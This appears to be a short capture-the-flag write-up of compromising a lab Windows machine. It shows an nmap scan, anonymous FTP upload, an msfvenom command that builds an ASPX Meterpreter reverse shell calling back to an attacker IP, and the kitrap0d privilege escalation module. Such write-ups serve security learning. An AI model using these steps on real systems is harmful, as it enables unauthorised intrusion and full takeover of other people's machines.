






The engagement started with a full TCP port scan in order to identify exposed services and running protocols on the target machine.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN devel_scan 10.10.10.5The scan results showed that the target was running an FTP service on port 21 and an HTTP service on port 80.

Further analysis of the FTP service revealed that anonymous authentication was enabled, allowing access without valid credentials.

Once connected, it was confirmed that the FTP server allowed file uploads using the PUT command. This behavior suggested the presence of an Arbitrary File Upload vulnerability, which could potentially be abused to upload a malicious payload.
To exploit this condition, a reverse shell payload was generated using msfvenom. The payload was crafted in ASPX format to be compatible with the web server.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your attacker tun0 IP4> LPORT=6969 -f aspx > payload.aspxThe generated payload was uploaded to the server via FTP and then executed through the web service, resulting in a successful reverse shell connection.

With an initial Meterpreter session established, msfconsole was used to enumerate potential local privilege escalation vulnerabilities. The built-in suggestion module provided a list of possible exploits applicable to the target system.

After reviewing the suggested options, a suitable exploit was selected from the list.

The chosen exploit was the following local privilege escalation module.
exploit/windows/local/ms10_015_kitrap0dAfter executing the exploit, administrative access was successfully obtained, completing the compromise of the system.
